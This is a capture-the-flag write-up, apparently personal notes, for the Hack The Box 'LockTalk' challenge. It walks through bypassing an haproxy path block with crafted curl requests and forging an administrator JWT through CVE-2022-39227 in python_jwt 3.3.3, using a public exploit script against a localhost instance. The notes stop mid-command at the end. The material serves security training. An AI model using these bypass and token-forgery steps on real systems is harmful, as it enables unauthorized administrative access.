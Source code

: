 # locktalk

In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

## Solution

```py
# config.py
FLAG = "HTB{f4k3_fl4g_f0r_t35t1ng}"
JWT_SECRET_KEY = jwk.JWK.generate(kty='RSA', size=2048)

# middleware.py
token = jwt.verify_jwt(token, current_app.config.get('JWT_SECRET_KEY'), ['PS256'])
# jwt.verify_jwt(jwt, pubkey, allowed_algs)
```

definitely this - https://github.com/davedoesdev/python-jwt

Note: Versions 3.3.4 and later fix a vulnerability (CVE-2022-39227) in JSON Web Token verification 
which lets an attacker with a valid token re-use its signature with modified claims. 
CVE to follow. Please upgrade!

requirements.txt has python_jwt==3.3.3

https://rawgit-now.netlify.app/davedoesdev/python-jwt/master/docs/_build/html/index.html

```sh
curl 'http://localhost:1337/api/v1/get_ticket'

curl 'http://localhost:1337/api/v1/%67et_ticket'

# haproxy.cfg is blocking requests to /api/v1/get_ticket

curl --path-as-is 'http://localhost:1337/api/v1/./get_ticket'
```

```json
{
  "ticket: ": "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA"
}

// eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
{
  "exp": 1710116450,
  "iat": 1710112850,
  "jti": "7_9td8xh18AO_ZysCzXtUg",
  "nbf": 1710112850,
  "role": "guest",
  "user": "guest_user"
}
```

JWT: < Header + '.' + Payload + '.' + Signature


eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9
.
eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
.
QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA

```sh
# add administrator
echo -n '{"exp": 1710116450, "iat": 1710112850, "jti": "7_9td8xh18AO_ZysCzXtUg", "nbf": 1710112850, "role": "administrator", "user": "guest_user"}' | base64
# eyJleHAiOiAxNzEwMTE2NDUwLCAiaWF0IjogMTcxMDExMjg1MCwgImp0aSI6ICI3Xzl0ZDh4aDE4QU9fWnlzQ3pYdFVnIiwgIm5iZiI6IDE3MTAxMTI4NTAsICJyb2xlIjogImFkbWluaXN0cmF0b3IiLCAidXNlciI6ICJndWVzdF91c2VyIn0=

echo -n '{"role": "administrator", "user": "guest_user"}' | base64
# eyJyb2xlIjogImFkbWluaXN0cmF0b3IiLCAidXNlciI6ICJndWVzdF91c2VyIn0=


# eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjogImFkbWluaXN0cmF0b3IiLCAidXNlciI6ICJndWVzdF91c2VyIn0=.QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA

curl 'http://localhost:1337/api/v1/flag' -H "Authorization: Bearer eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOiAxNzEwMTE2NDUwLCAiaWF0IjogMTcxMDExMjg1MCwgImp0aSI6ICI3Xzl0ZDh4aDE4QU9fWnlzQ3pYdFVnIiwgIm5iZiI6IDE3MTAxMTI4NTAsICJyb2xlIjogImFkbWluaXN0cmF0b3IiLCAidXNlciI6ICJndWVzdF91c2VyIn0=.QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA"
# incorrect padding

curl 'http://localhost:1337/api/v1/flag' -H "Authorization: Bearer eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjogImFkbWluaXN0cmF0b3IiLCAidXNlciI6ICJndWVzdF91c2VyIn0=.QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA"
```


```sh
# copied from https://github.com/user0x1337/CVE-2022-39227

python3 exploit.py -i role=administrator -j 'eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwAeyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ'
# [+] New token: {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA"}

```

```
Example (HTTP-Cookie):
------------------------------
auth={"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA"}
```


```json
{
  "  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.": "",
  "protected": "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9",
  "payload": "eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ",
  "signature": "QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA"
}

// eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA
```

```sh
curl 'http://localhost:1337/api/v1/flag' -H "Authorization: Bearer eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA"
```

redo!

```sh
curl --path-as-is 'http://localhost:1337/api/v1/./get_ticket'
# eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTkxNDgsImlhdCI6MTcxMDExNTU0OCwianRpIjoiRGJEdHJRU0pXY09EZ3ZhTzV6Rkw2USIsIm5iZiI6MTcxMDExNTU0OCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.AlG5UrwM1TXNXC5trnXCuAehmwru_mW-NqAZ6jjxuh8UtwisvdeV7k9R5AgkyR2bTZVb-v2_S5aQ-zd6MRnUwrPHpnubMBezdVnmBiTs6C1OcAFAFV6l3bIskltVJ8LoL7WNZbhSgUqOf-AWoZ7e_uDnpTMR0k5xoNqTDkReF2tBGgqUlGAQLiLG1-n2ICTQUelfA5waFHv-aNOc9g91dSOe_7nLM1QRwJiG4hQAZzB1cc0JzLZP0NVPORP7USa9TQDtF_FBgTZsweEIbrOGCN3bFsFfnTHiD8fE9lYUfNQQvjShJV-OYwPem1Vf4lYxlmZrDSDARwSLrt2SONlLLg

python3 exploit.py -i role=administrator -j eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTkxNDgsImlhdCI6MTcxMDExNTU0OCwianRpIjoiRGJEdHJRU0pXY09EZ3ZhTzV6Rkw2USIsIm5iZiI6MTcxMDExNTU0OCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.AlG5UrwM1TXNXC5trnXCuAehmwru_mW-NqAZ6jjxuh8UtwisvdeV7k9R5AgkyR2bTZVb-v2_S5aQ-zd6MRnUwrPHpnubMBezdVnmBiTs6C1OcAFAFV6l3bIskltVJ8LoL7WNZbhSgUqOf-AWoZ7e_uDnpTMR0k5xoNqTDkReF2tBGgqUlGAQLiLG1-n2ICTQUelfA5waFHv-aNOc9g91dSOe_7nLM1QRwJiG4hQAZzB1cc0JzLZP0NVPORP7USa9TQDtF_FBgTZsweEIbrOGCN3bFsFfnTHiD8fE9lYUfNQQvjShJV-OYwPem1Vf4lYxlmZrDSDARwSLrt2SONlLLg
# {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTkxNDgsImlhdCI6MTcxMDExNTU0OCwianRpIjoiRGJEdHJRU0pXY09EZ3ZhTzV6Rkw2USIsIm5iZiI6MTcxMDExNTU0OCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAxMTkxNDgsImlhdCI6MTcxMDExNTU0OCwianRpIjoiRGJEdHJRU0pXY09EZ3ZhTzV6Rkw2USIsIm5iZiI6MTcxMDExNTU0OCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"AlG5UrwM1TXNXC5trnXCuAehmwru_mW-NqAZ6jjxuh8UtwisvdeV7k9R5AgkyR2bTZVb-v2_S5aQ-zd6MRnUwrPHpnubMBezdVnmBiTs6C1OcAFAFV6l3bIskltVJ8LoL7WNZbhSgUqOf-AWoZ7e_uDnpTMR0k5xoNqTDkReF2tBGgqUlGAQLiLG1-n2ICTQUelfA5waFHv-aNOc9g91dSOe_7nLM1QRwJiG4hQAZzB1cc0JzLZP0NVPORP7USa9TQDtF_FBgTZsweEIbrOGCN3bFsFfnTHiD8fE9lYUfNQQvjShJV-OYwPem1Vf4lYxlmZrDSDARwSLrt2SONlLLg"}

# eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTkxNDgsImlhdCI6MTcxMDExNTU0OCwianRpIjoiRGJEdHJRU0pXY09EZ3ZhTzV6Rkw2USIsIm5iZiI6MTcxMDExNTU0OCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.AlG5UrwM1TXNXC5trnXCuAehmwru_mW-NqAZ6jjxuh8UtwisvdeV7k9R5AgkyR2bTZVb-v2_S5aQ-zd6MRnUwrPHpnubMBezdVnmBiTs6C1OcAFAFV6l3bIskltVJ8LoL7WNZbhSgUqOf-AWoZ7e_uDnpTMR0k5xoNqTDkReF2tBGgqUlGAQLiLG1-n2ICTQUelfA5waFHv-aNOc9g91dSOe_7nLM1QRwJiG4hQAZzB1cc0JzLZP0NVPORP7USa9TQDtF_FBgTZsweEIbrOGCN3bFsFfnTHiD8fE9lYUfNQQvjShJV-OYwPem1Vf4lYxlmZrDSDARwSLrt2SONlLLg
curl 'http://localhost:1337/api/v1/flag' -H "Authorization: Bearer
```

TODO:
